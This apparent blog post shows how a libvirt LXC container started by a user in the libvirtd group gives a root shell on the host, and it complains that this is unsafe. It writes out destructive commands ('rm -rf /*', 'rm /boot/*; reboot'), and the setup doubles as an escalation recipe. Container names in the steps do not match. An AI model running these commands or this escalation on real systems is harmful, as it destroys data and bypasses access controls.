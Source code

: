 ```yaml
---
layout: post
title: Docker Container Madness
---
```


Preamble:
```
  # apt-get install docker virt-manager
  # export LIBVIRT_DEFAULT_URI=lxc:///
```
Create an unprivileged user:
```
  # useradd -G libvirtd user 
```
Save the following domXML template
```
  <domain type='lxc'>
	  <name>container</name>
	  <memory>102400</memory>
	  <os>
		  <type>exe</type>
		  <init>/bin/sh</init>
	  </os>
	  <devices>
		  <console type='pty'/>
	  </devices>
  </domain>
```
Import container into Libvirt:
```
  user@host:~$ virsh define container.xml
```
Start the container:
```
  user@host:~$ virsh start test
  user@host:~$ virsh console test
```
And now run bash shell:
```
  Connected to domain test
  Escape character is ^]
  
  # bash
  bash: groups: command not found
  /bin/lesspipe: 1: /bin/lesspipe: basename: not found
  /bin/lesspipe: 1: /bin/lesspipe: dirname: not found
  /bin/lesspipe: 295: [: =: unexpected operator
  Command 'dircolors' is available in '/usr/bin/dircolors'
  The command could not be located because '/usr/bin' is not included in the PATH environment variable.
  dircolors: command not found
  root@host:/# 
```
Huh? You now have root. What kind of messed up world is this? I can read/write to any file:

```
  root@host:/# rm -rf /*
```

Or alternatively have a bit of fun
```
  root@host:/# rm /boot/*; reboot;
```

Is it possible to be careful with Docker? It doesn't seem safe for mortals.
```
# docker version

Client version: 1.0.1
Client API version: 1.12
Go version (client): go1.2.1
Git commit (client): 990021a
Server version: 1.0.1
Server API version: 1.12
Go version (server): go1.2.1
Git commit (server): 990021a
```
